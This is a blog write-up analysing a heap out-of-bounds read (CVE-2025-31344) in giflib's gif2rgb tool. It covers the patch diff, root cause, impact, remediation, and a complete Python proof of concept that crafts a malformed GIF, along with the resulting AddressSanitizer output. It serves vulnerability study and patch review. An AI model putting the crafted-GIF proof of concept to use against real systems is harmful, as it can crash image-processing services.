

# Summary

> A malformed GIF using invalid palette indexes can drive giflib's DumpScreen2RGB function into an out-of-bounds heap access during RGB expansion.

-   **CVE:** CVE-2025-31344
-   **Product:** giflib (image decoding library and utilities)
-   **Vulnerability:** Heap-based buffer overflow (out-of-bounds read) in DumpScreen2RGB
-   **Affected Versions:** giflib 5.2.2 (and below)
-   **Fixed In:** 5.2.2-r1 (distro backports; no new upstream release)
-   **CVSS Severity:** 7.3 (high)
-   **CVSS Vector:** CVSS:3.1/AV:L/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:H
-   **Required Privilege:** None (local file parsing)
-   **NVD Published:** April 14, 2025

A crafted GIF can embed out-of-range palette indices that cause DumpScreen2RGB to read beyond the bounds of the colour map. This causes an out-of-bounds heap access during RGB frame expansion and can result in process crashes, or minor information disclosure if the out-of-bounds bytes propagate into RGB output.

# Introduction

In the last two posts I focused on web-facing vulnerabilities where patch diffing was mostly source-level: first a [missing authentication middleware in Hoverfly](https://book.cryptocat.me/blog/research/cve/cve_2025_54376) and then a more complex file-handling [bug in Tomcat's Partial PUT logic](https://book.cryptocat.me/blog/research/cve/cve_2025_24813). For this writeup I wanted to switch to a native C target but keep things simple before moving on to something that requires binary reversing.

giflib is a small and widely packaged image library. CVE-2025-31344 is a straight-forward heap out-of-bounds bug caused by a missing bounds check in DumpScreen2RGB. The patch is tiny, but it still makes a good warm-up for C code review and basic patch analysis before jumping into a more complex binary diffing target in the next post.

# CVE-2025-31344: Heap-based Buffer Overflow

This vulnerability is a heap-based buffer overflow that manifests as an out-of-bounds read when giflib processes a frame whose pixel data references colour-map entries outside the declared palette size. DumpScreen2RGB trusts the frame's colour indexes and uses them directly when expanding indexed pixels into 24-bit RGB output. If the GIF declares a global or local colour map of size N but uses an index ≥ N, giflib reads beyond the end of the allocated GifColorType array, resulting in a heap out-of-bounds access on the colour map buffer.

## Patch Review

giflib has no upstream fixed release for this issue, so there is no version jump like 5.2.2 -> 5.2.3 to diff directly. Instead, vendors have backported a [small patch](https://github.com/OpenMandrivaAssociation/giflib/blob/master/giflib-5.2.2-cve-2025-31344.patch) that adds a missing bounds check inside DumpScreen2RGB.

```diff
diff -up giflib-5.2.2/gif2rgb.c.omv~ giflib-5.2.2/gif2rgb.c
--- giflib-5.2.2/gif2rgb.c.omv~	2025-04-07 21:44:54.956355983 +0200
+++ giflib-5.2.2/gif2rgb.c	2025-04-07 21:45:29.630769589 +0200
@@ -329,6 +329,11 @@ static void DumpScreen2RGB(char *FileNam
 			GifRow = ScreenBuffer[i];
 			GifQprintf("\b\b\b\b%-4d", ScreenHeight - i);
 			for (j = 0; j < ScreenWidth; j++) {
+				/* Check if color is within color palete */
+				if (GifRow[j] >= ColorMap->ColorCount) {
+					GIF_EXIT(GifErrorString(
+					    D_GIF_ERR_IMAGE_DEFECT));
+				}
 				ColorMapEntry = &ColorMap->Colors[GifRow[j]];
 				Buffers[0][j] = ColorMapEntry->Red;
 				Buffers[1][j] = ColorMapEntry->Green;
```

Interestingly, this exact bug was already [patched once before (CVE-2022-28506)](https://sourceforge.net/u/mmuzila/giflib/ci/fix-cve-2022-28506/), _but_ only in the `OneFileFlag` branch (true) that writes via a single `BufferP++` pointer. The multi-buffer (`Buffers[3]`) branch (false) remained vulnerable, which is what this new CVE addresses.

## Root Cause Analysis

At a low level, the bug is just a missing bounds check in the palette lookup inside `DumpScreen2RGB`. The function walks the logical screen buffer, takes each pixel index from `GifRow[j]`, looks it up in the active colour map, and writes the RGB components into one of three output buffers.

`ColorMapObject` tracks the current palette in two fields:

-   `ColorCount` – number of entries in the palette
-   `Colors` – heap-allocated array of `GifColorType[ColorCount]`

In the multi-buffer branch of `DumpScreen2RGB` (the `else` case that uses `Buffers[3]`), the core loop in 5.2.2 looks like this:

```c
for (i = 0; i < ScreenHeight; i++) {
    GifRow = ScreenBuffer[i];
    for (j = 0; j < ScreenWidth; j++) {
        ColorMapEntry = &ColorMap->Colors[GifRow[j]];
        Buffers[0][j] = ColorMapEntry->Red;
        Buffers[1][j] = ColorMapEntry->Green;
        Buffers[2][j] = ColorMapEntry->Blue;
    }
}
```

There is no validation that `GifRow[j]` is less than `ColorMap->ColorCount` before using it as an index into `Colors`. If a GIF declares a palette with `N` entries but the compressed image data contains a value `>= N`, `ColorMapEntry` ends up pointing past the end of the heap buffer. Reading `ColorMapEntry->Red`, `Green` and `Blue` at that address causes a heap out-of-bounds read. Built with `ASan` (`AddressSanitizer`), a vulnerable `gif2rgb` build reports this as a heap-buffer-overflow in `DumpScreen2RGB` at the `ColorMap->Colors[GifRow[j]]` access.

This pattern was partially fixed in CVE-2022-28506 by adding a bounds check in the `OneFileFlag` branch that writes via `*BufferP++`. The multi-buffer path shown above stayed unchanged and could still index past the end of the palette. CVE-2025-31344 closes that gap by adding the same `GifRow[j] >= ColorMap->ColorCount` guard in this branch before the `ColorMapEntry` lookup.

## Exploitability

Although this is classified as a heap-based buffer overflow, the practical impact is limited by how the code behaves. The out-of-bounds pointer is only used for reading `Red`, `Green` and `Blue` values from `ColorMapEntry`. The destination writes (`Buffers[0][j]`, `Buffers[1][j]`, `Buffers[2][j]`) remain in-bounds and do not corrupt adjacent heap metadata.

In practice this leads to:

-   crashes when `gif2rgb` processes a malicious GIF
-   minor information disclosure through crash logs or sanitiser output
-   denial-of-service for automation pipelines that batch-convert GIFs

Many Linux distributions also note that they do not ship `gif2rgb` at all, or treat this as a low-risk local issue. It would only become a more serious vulnerability if the same code path appeared in a long-running, network-facing application that processes untrusted GIFs. In the context of the standalone `gif2rgb` utility, the realistic impact is restricted to process termination on malformed input.

### PoC

First, grab a copy of `gif2rgb` from the vulnerable `giflib` package.

```bash
mkdir -p cve-2025-31344 && cd cve-2025-31344

wget https://downloads.sourceforge.net/giflib/giflib-5.2.2.tar.gz

tar xf giflib-5.2.2.tar.gz
cd giflib-5.2.2

CC="gcc -fsanitize=address -g" make
```

Make sure it's working as expected.

```bash
./gif2rgb -h

gif2rgb Version 5.2, 	Gershon Elber,	Nov 25 2025,   11:04:09
(C) Copyright 1989 Gershon Elber.
Usage: gif2rgb [-v] [-c #Colors] [-s Width Height] [-1] [-o OutFileName] [-h] GifFile
```

Here's a PoC that builds a minimal 1×1 GIF with a 2-entry global colour table, then hand-crafts the compressed image data so that `gif2rgb` eventually sees a palette index that is out of range. The header and logical screen descriptor declare a 1×1 image and set the global colour table flag with a size of 2 entries; we then emit exactly two RGB triplets (black and white), so `ColorMap->ColorCount == 2` and valid indices are `0` and `1`. The image descriptor that follows covers the full 1×1 frame, but the LZW payload (`codes_bits` packed into `b0`/`b1`) is chosen so that the decompressor reconstructs a pixel value of `3` at decode time. That value is stored into the screen buffer and later used as `GifRow[j]` inside `DumpScreen2RGB`. Because the vulnerable build never checks `GifRow[j] < ColorMap->ColorCount` in the multi-buffer branch, it blindly computes `ColorMap->Colors[3]` on a palette of size 2, stepping 1 byte past the allocated `GifColorType[2]` array and triggering the ASan heap-buffer-overflow you see in the demo.

```python
import struct
import subprocess
import sys
from pathlib import Path

def make_poc(path):
    data = bytearray()
    data += b"GIF89a"
    width = 1
    height = 1
    data += struct.pack("<HH", width, height)
    packed_fields = 0b10000000
    data.append(packed_fields)
    data.append(0)
    data.append(0)
    data += bytes([0, 0, 0])
    data += bytes([255, 255, 255])
    data.append(0x2c)
    data += struct.pack("<HHHH", 0, 0, width, height)
    data.append(0)
    lzw_min_code_size = 2
    data.append(lzw_min_code_size)
    codes_bits = [0, 0, 1, 0, 1, 0, 1, 0, 1]
    b0 = 0
    for i in range(8):
        b0 |= (codes_bits[i] & 1) << i
    b1 = codes_bits[8]
    data.append(2)
    data.append(b0)
    data.append(b1)
    data.append(0)
    data.append(0x3b)
    with open(path, "wb") as f:
        f.write(data)

def run_case(gif2rgb_path, gif_path, out_path):
    cmd = [str(gif2rgb_path), "-o", str(out_path), str(gif_path)]
    print("[cmd] " + " ".join(cmd))
    result = subprocess.run(cmd, capture_output=True, text=True)
    print("[exit] " + str(result.returncode))
    if result.stdout:
        print("--- stdout ---")
        print(result.stdout)
    if result.stderr:
        print("--- stderr ---")
        print(result.stderr)

def main():
    base = Path(__file__).resolve().parent
    gif2rgb_path = base / "gif2rgb"
    gif_path = base / "poc.gif"
    out_path = base / "poc.rgb"
    if not gif2rgb_path.is_file():
        print("[!] gif2rgb not found at " + str(gif2rgb_path))
        sys.exit(1)
    make_poc(gif_path)
    run_case(gif2rgb_path, gif_path, out_path)

if __name__ == "__main__":
    main()
```

#### Demo

Run the PoC against the vulnerable library and see the ASan complain about the heap buffer overflow.

```python
python poc.py

[cmd] /home/crystal/Desktop/bug/cve-2025-31344/giflib-5.2.2/gif2rgb -o /home/crystal/Desktop/bug/cve-2025-31344/giflib-5.2.2/poc.rgb /home/crystal/Desktop/bug/cve-2025-31344/giflib-5.2.2/poc.gif
[exit] 1
--- stderr ---
=================================================================
==208027==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x602000000036 at pc 0x55927eda8121 bp 0x7ffc9ae5ab70 sp 0x7ffc9ae5ab68
READ of size 1 at 0x602000000036 thread T0
    #0 0x55927eda8120 in DumpScreen2RGB /home/crystal/Desktop/bug/cve-2025-31344/giflib-5.2.2/gif2rgb.c:333
    #1 0x55927eda8120 in GIF2RGB /home/crystal/Desktop/bug/cve-2025-31344/giflib-5.2.2/gif2rgb.c:517
    #2 0x55927eda8120 in main /home/crystal/Desktop/bug/cve-2025-31344/giflib-5.2.2/gif2rgb.c:574
    #3 0x7f7b4f965249 in __libc_start_call_main ../sysdeps/nptl/libc_start_call_main.h:58
    #4 0x7f7b4f965304 in __libc_start_main_impl ../csu/libc-start.c:360
    #5 0x55927eda8be0 in _start (/home/crystal/Desktop/bug/cve-2025-31344/giflib-5.2.2/gif2rgb+0x6be0)

0x602000000036 is located 0 bytes to the right of 6-byte region [0x602000000030,0x602000000036)
allocated by thread T0 here:
    #0 0x7f7b4fcb83b7 in __interceptor_calloc ../../../../src/libsanitizer/asan/asan_malloc_linux.cpp:77
    #1 0x55927edb4bf7 in GifMakeMapObject /home/crystal/Desktop/bug/cve-2025-31344/giflib-5.2.2/gifalloc.c:58

SUMMARY: AddressSanitizer: heap-buffer-overflow /home/crystal/Desktop/bug/cve-2025-31344/giflib-5.2.2/gif2rgb.c:333 in DumpScreen2RGB
Shadow bytes around the buggy address:
  0x0c047fff7fb0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0c047fff7fc0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0c047fff7fd0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0c047fff7fe0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0c047fff7ff0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
=>0x0c047fff8000: fa fa 03 fa fa fa[06]fa fa fa 00 fa fa fa 01 fa
  0x0c047fff8010: fa fa 01 fa fa fa 01 fa fa fa 01 fa fa fa fa fa
  0x0c047fff8020: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff8030: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff8040: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff8050: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
==208027==ABORTING
```

Let's apply the patch and retest. Open `gif2rgb.c` and insert the bounds check in `DumpScreen2RGB()` and recompile.



```bash
make clean
CC="gcc -fsanitize=address -g" make
```

After applying the patch, the crafted GIF is still detected as malformed, but this time the new bounds check in `DumpScreen2RGB` bails out cleanly instead of walking past the end of the palette.

```bash
python poc.py

[cmd] /home/crystal/Desktop/bug/cve-2025-31344/giflib-5.2.2/gif2rgb -o /home/crystal/Desktop/bug/cve-2025-31344/giflib-5.2.2/poc.rgb /home/crystal/Desktop/bug/cve-2025-31344/giflib-5.2.2/poc.gif
[exit] 253
--- stderr ---

gif2rgb: Image is defective, decoding aborted
```

## Remediation

-   Upgrade to a distro build that includes the backported fix e.g. giflib 5.2.2-r1 on OpenMandriva, openEuler's patched build, or any vendor package released after April 2025.
-   If you maintain your own build of giflib, apply a vendor patch and rebuild the library.
-   If you consume giflib indirectly (image viewers, converters, thumbnail generators), update those packages so they link against a patched giflib.
-   Avoid processing untrusted GIF files with unpatched giflib utilities (`gif2rgb`, `giftool`) until your environment has been upgraded.

# Conclusion

This is a small but clear example of how a missing bounds check in a tight image-processing loop can lead to a heap out-of-bounds access. The patch itself is small, but the bug highlights long-standing inconsistencies in how giflib validates palette indexes across its different output paths. It's also an interesting example of a patch gone wrong, i.e. the original "fix" was only applied to one of the conditions, while the other remained vulnerable for many years.

Although the practical impact is limited to the giflib utilities that invoke `DumpScreen2RGB` (most commonly the `gif2rgb` tool), it is still useful as a warm-up C target for vulnerability analysis. The next writeup will focus on a target where patch diffing and binary reversing are actually required to understand the change, rather than a simple one-line guard being the entire fix.

# References

-   [NVD: CVE-2025-31344](https://nvd.nist.gov/vuln/detail/CVE-2025-31344)
-   [OpenMandriva Patch](https://github.com/OpenMandrivaAssociation/giflib/blob/master/giflib-5.2.2-cve-2025-31344.patch)
-   [openEuler PR: #54](https://gitee.com/src-openeuler/giflib/pulls/54)
-   [Wiz: CVE-2025-31344 Analysis](https://www.wiz.io/vulnerability-database/cve/cve-2025-31344)
